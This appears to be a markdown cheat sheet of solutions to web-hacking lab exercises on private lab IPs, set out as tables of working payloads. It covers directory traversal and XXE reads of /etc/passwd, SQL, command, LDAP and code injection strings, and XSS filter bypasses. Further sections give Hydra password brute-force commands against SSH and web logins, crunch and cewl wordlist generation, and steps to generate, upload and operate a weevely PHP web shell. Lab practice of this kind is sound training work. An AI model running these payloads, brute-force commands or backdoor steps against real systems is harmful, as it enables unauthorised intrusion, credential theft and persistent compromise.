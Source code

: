 # Phase III: Vulnerbility discovery & Exploitation
### Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../etc/passwd |
| example&nbsp;3 | ../../../etc/passwd%00 `Null Bytes Injection` |

### File Include
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | ../../../etc/passwd%00 `Null Bytes Injection` |

### SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

### Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0Acat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

### LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

### XML attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/xml/example1.php?xml=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Ctest%3E%26xxe%3B%3C%2Ftest%3E `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>` |
| example&nbsp;2 | http://10.0.2.4/xml/example2.php?name=hacker%27+or+1=1]%00 `hacker'+or+'1'='1`|

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f

### DVWA Authentication
hydra -l admin -P /usr/share/wordlists/rockyou.txt 	
	  192.168.7.159 -s 8080 http-get-form 
	  "/dvwa/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=password incorrect"
	  -f
	  -vVd

### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

### Code Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/codeexec/example1.php?name=hacker".system('uname -a');# |
| example&nbsp;2 | http://10.0.2.4/codeexec/example2.php?order=id);}system('uname%20-a');%2F%2F |

### XSS
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | example1.php?name=%3Cscript%3Ealert(1)%3C%2fscript%3E |
| example&nbsp;2 | example2.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;3 | example3.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;4 | example4.php?name=<img src=xxx onerror=alert(1)> |
| example&nbsp;5 | example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> |
| example&nbsp;6 | example6.php?name=hacker";alert(1)%2f%2f |
| example&nbsp;7 | example7.php?name=hacker';alert(1)%2f%2f |
| example&nbsp;8 | example8.php/"><script>alert(1)</script> |
| example&nbsp;8 | example9.php/#<script>alert(1)</script> |

## Backdoor
### weevely
 1. weevely generate 1234 /root/hack.php
 2. upload file
 3. weevely http://.../upload/hack.php 123
 4. weevely> help
 5. weevely> :system_info
 6. weevely> :audit_etcpasswd
 7. weevely> :bruteforce_sql
